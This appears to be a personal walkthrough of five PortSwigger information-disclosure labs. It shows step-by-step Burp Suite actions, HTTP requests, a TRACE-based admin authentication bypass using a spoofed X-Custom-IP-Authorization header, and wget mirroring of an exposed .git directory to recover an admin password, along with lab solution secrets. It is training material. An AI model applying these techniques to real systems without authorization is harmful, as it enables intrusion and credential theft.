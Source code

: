 # Portswigger
## Information Disclosure Vulnerabilities
### Information disclosure in error messages
```bash
# This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework. 

Intercept is on
Click "View details"

Change "productId" value to "876876"

GET /product?productId=876876 HTTP/1.1

HTTP/1.1 404 Not Found

Change "productId" value to "hat"

GET /product?productId=hat HTTP/1.1

HTTP/1.1 500 Internal Server Error

Verbose error message revealing vulnerable server

"Apache Struts 2 2.3.31"

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512231618.png)

### Information disclosure on debug page
```bash

# This lab contains a debug page that discloses sensitive information about the application. To solve the lab, obtain and submit the SECRET_KEY environment variable. 

Go to: Target -> Site map -> right-click current site -> engagement tools -> Discover content

/cgi-bin/phpinfo.php

After searching this drove of information you find SECRET_KEY

08jhz9dtcrjezdpl22kji6gvbsehygfs

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512232450.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512232532.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512232551.png)

### Source code disclosure via backup files
```bash

# This lab leaks its source code via backup files in a hidden directory. To solve the lab, identify and submit the database password, which is hard-coded in the leaked source code. 

Go to: Target -> Site map -> right-click current site -> engagement tools -> Discover content

Nothing

Intercept is on
Click "Home"
Change:

GET / HTTP/1.1

To

GET /backup HTTP/1.1

HTTP/1.1 200 OK

ProductTemplate.java.bak

Go to:

https://ac3b1f4f1ecfe538c0d2d45e00e1002d.web-security-academy.net/backup/ProductTemplate.java.bak

Locate the poassword within the code

c66fsa1ki4wky2d8ph19j33slvfn7ilk

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512233808.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512234002.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512234043.png)

### Authentication bypass via information disclosure
```bash

#  This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

# To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

# You can log in to your own account using the following credentials: wiener:peter 

Go to:

GET /admin HTTP/1.1

Response:

HTTP/1.1 401 Unauthorized

'Admin interface only available to local users'

Send the "/admin" end-point to repeater

Change:

GET /admin HTTP/1.1

To

TRACE /admin HTTP/1.1

HTTP/1.1 200 OK

X-Custom-IP-Authorization: 89.187.164.248

Copy "X-Custom-IP-Authorization:"

Go to: Proxy -> Options -> Match and Replace -> Add
Replace: 'X-Custom-IP-Authorization: 127.0.0.1'
Refresh Home page
'Admin panel' should be present

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512235722.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220512235655.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220513000206.png)

### Information disclosure in version control history
```bash

# This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account. 

Go to:

https://ac0e1fb21fe24f21c0a319740070001b.web-security-academy.net/.git/

Open terminal
Create a directory to download the .git repository content

wget -r https://ac0e1fb21fe24f21c0a319740070001b.web-security-academy.net/.git/

Open 'git-cola' application
Open the recently downloaded file with 'git-cola'
Left-click 'admin.conf' -> left-click 'commit' -> 'Undo last commit' -> 'Undo last commit'

-ADMIN_PASSWORD=y2f2vcxdmbydb1aqaktj

Login is administrator:y2f2vcxdmbydb1aqaktj
Delete the username "carlos"

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220513004001.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220513004032.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220513004107.png)

#hacking

